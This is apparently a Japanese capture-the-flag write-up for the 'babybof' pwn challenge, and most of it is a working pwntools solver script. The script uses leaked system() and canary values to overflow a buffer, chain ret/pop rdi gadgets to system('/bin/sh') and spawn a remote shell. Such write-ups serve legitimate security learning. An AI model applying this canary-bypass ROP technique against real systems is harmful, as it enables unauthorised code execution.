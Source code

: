 ## babybof (100pt / 494 solves)
> welcome to pwn! hopefully you can do your first buffer overflow
> 
> [問題鯖への接続情報]
>
> 添付ファイル: vuln

なんとソースコード無し。鯖に接続して一通りの操作を行った結果を以下に示す。

<img src="images/image01.png" width="70%"></img>

アドレスは与えるので、BOFでリターンアドレスを書き換えて`system("bin/sh")`してください（canaryのおまけ付き）という問題であることは分かった。
`(make sure your stack is aligned!)`とあるように、`ret`と`pop rdi`でスタックポインタを調整しなければならないことに気を付けつつソルバを書いた。なお`pop rdi;`, `ret`, `"bin/sh"`はアドレスが固定だったため、ハードコードしてしまっている。

```python
from pwn import *

target = './vuln'

context.os = 'linux'
context.arch = 'amd64'
context.binary = target

addr_pop_rdi = 0x4011ba
addr_ret = 0x4011bb
addr_binsh = 0x404038

#proc = process(target)
proc = remote(host, port)

proc.recvuntil('system @ ')
temp = proc.recvline()[2:14].decode()
print(temp)
addr_system = int(temp, 16)
proc.recvuntil('canary: ')
temp = proc.recvline()[2:18].decode()
print(temp)
canary = int(temp, 16)

payload = b'A' * 56
payload += pack(canary)
payload += b'A' * 8
payload += pack(addr_ret)
payload += pack(addr_pop_rdi)
payload += pack(addr_binsh)
payload += pack(addr_system)

proc.sendlineafter('enter your input (make sure your stack is aligned!): ', payload)

proc.interactive()
```